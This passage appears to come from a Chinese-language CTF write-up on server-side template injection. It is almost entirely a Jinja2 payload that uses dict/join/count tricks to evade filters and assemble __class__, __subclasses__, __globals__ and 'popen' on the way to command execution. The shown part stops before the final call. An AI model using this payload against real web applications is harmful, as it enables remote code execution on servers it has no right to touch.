 [![在这里插入图片描述](assets/1698900310-d6aa84c66a58364df73d5f83cad3a02d.png)](https://storage.tttang.com/media/attachment/2022/08/14/7f3d6938-5e06-4661-9d39-88c656e2ab9b.png)

沿用上关 payload，简单修改一下

```bash
{% set po=dict(po=a,p=a)|join%}
{%set two=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set x=(()|select|string|list)|attr(po)(two)%}
{%set eighteen=dict(aaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set hundred=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{% set a=(x,x,dict(class=a)|join,x,x)|join()%}  
{%set b=(x,x,dict(base=a)|join,x,x)|join() %}  
{%set c=(x,x,dict(subclasses=a)|join,x,x)|join() %}   
{%set d=(x,x,dict(getitem=a)|join,x,x)|join()%}
{%set e=(x,x,dict(init=b)|join,x,x)|join()%} 
{%set f=(x,x,dict(globals=b)|join,x,x)|join()%} 
{%set g=dict(pop=a,en=b)|join %} 
{%set h=self|string|attr(d)(eighteen)%} 
```